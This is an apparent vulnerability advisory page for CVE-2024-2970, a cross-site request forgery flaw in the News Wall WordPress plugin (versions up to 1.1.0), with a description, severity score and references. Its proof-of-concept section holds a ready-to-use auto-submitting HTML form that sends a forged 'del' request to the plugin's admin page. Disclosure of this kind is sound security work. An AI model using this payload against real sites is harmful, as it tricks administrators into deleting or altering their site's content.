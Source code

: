 ```yaml
---
layout: page
title: CVE-2024-2970
subtitle: News Wall <= 1.1.0 - Cross-Site Request Forgery to Plugin Settings Update
---
```

## Description
The News Wall plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 1.1.0. This is due to missing or incorrect nonce validation on the nwap_newslist_page() function. This makes it possible for unauthenticated attackers to update the plugin's settings and modify news lists via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
4.3 (Medium) - CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N

## Affected Version
    <= 1.1.0

## PoC :

```
<html>
  <!-- Made By Eneriiiiii -->
  <body>
    <form action="http://[assets]/wp-admin/admin.php">
      <input type="hidden" name="page" value="nw&#95;newslist&#95;page" />
      <input type="hidden" name="action" value="del" />
      <input type="hidden" name="id" value="1" />
      <input type="hidden" name="confirm" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Refrence
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/news-wall/news-wall-110-cross-site-request-forgery-to-plugin-settings-update
- https://nvd.nist.gov/vuln/detail/CVE-2024-2970

